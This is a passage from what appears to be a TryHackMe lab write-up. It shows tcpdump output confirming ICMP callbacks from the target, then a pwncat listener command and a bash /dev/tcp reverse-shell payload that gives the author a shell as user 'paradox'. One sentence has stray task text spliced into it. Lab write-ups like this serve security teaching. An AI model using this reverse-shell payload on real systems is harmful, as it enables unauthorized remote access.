```sh
┌──(viorage㉿kali)-[~/Tryhackme/Demo]
└─$ sudo tcpdump -i tun0 icmp      
[sudo] password for viorage: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
15:37:20.282399 IP 10.10.30.23 > 10.13.18.86: ICMP echo request, id 1618, seq 1, length 64
15:37:20.282427 IP 10.13.18.86 > 10.10.30.23: ICMP echo reply, id 1618, seq 1, length 64
15:37:21.282924 IP 10.10.30.23 > 10.13.18.86: ICMP echo request, id 1618, seq 2, length 64
15:37:21.282940 IP 10.13.18.86 > 10.10.30.23: ICMP echo reply, id 1618, seq 2, length 64
15:37:22.283371 IP 10.10.30.23 > 10.13.18.86: ICMP echo request, id 1618, seq 3, length 64
15:37:22.283394 IP 10.13.18.86 > 10.10.30.23: ICMP echo reply, id 1618, seq 3, length 64
```

___

# Paradox is nomming cookies

After that I tried to get a reverse shell Find out what Varg is working onwith several payloads and eventually caught the shell after I set up an unbreakable pwncat listener.

Listener - 
```sh
pwncat -l 443 --self-inject /bin/bash:10.13.18.86:443
```

Payload - 

```bash
/bin/bash -c 'sh -i >& /dev/tcp/10.13.18.86/443 0>&1'
```

Shell as ```paradox```

![paradox](paradox.png)